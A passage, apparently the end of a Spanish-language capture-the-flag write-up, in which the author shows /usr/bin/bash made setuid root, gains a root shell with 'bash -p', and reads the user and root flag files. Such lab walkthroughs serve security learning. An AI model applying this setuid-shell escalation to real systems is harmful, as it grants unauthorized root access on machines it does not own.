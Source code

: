 y en un par de minuto tenemos 

```bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
```
{: .nolineno}


ahora solo queda convertirnos en root ejecutando un simple `bash -p`

### flag de user y root

```bash
bash-5.0# ls
pspy64  texput.log  user.txt

bash-5.0# cat user.txt 
0c5c9b6435952a449e1be9b9fc7e571a

bash-5.0# cd /root/
bash-5.0# ls
root.txt

bash-5.0# cat root.txt 
48b63ec79f141d51f0b025b9bec71b4f
```
{: .nolineno}
